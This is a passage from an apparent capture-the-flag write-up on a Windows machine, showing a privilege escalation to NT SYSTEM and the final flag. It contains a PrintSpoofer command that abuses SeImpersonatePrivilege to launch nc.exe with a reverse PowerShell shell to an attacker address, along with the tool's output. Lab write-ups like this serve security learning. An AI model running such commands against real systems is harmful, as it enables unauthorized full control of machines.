

I will upload a copy of Printspooler and test my way in, so our command should look like this one:

```
PS C:\temp> ./PrintSpoofer.exe -c "C:\Temp\nc.exe 10.10.14.8 6666 -e powershell"
./PrintSpoofer.exe -c "C:\Temp\nc.exe 10.10.14.8 6666 -e powershell"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
PS C:\temp>
```

And eventualy in another NC we grab a shell as NT System gainng the highest access possible on a windows machine:



Now we can grab the last flag in Administraor desktop:


If we check for network settings:

̈́

This mean that after pawnign this machine we can't do anything here and we cann move forward!

* * *

## EXTRA:

I checked the writeup and I was right the indeded way was to bufferoverflow that APPSERVER.exe.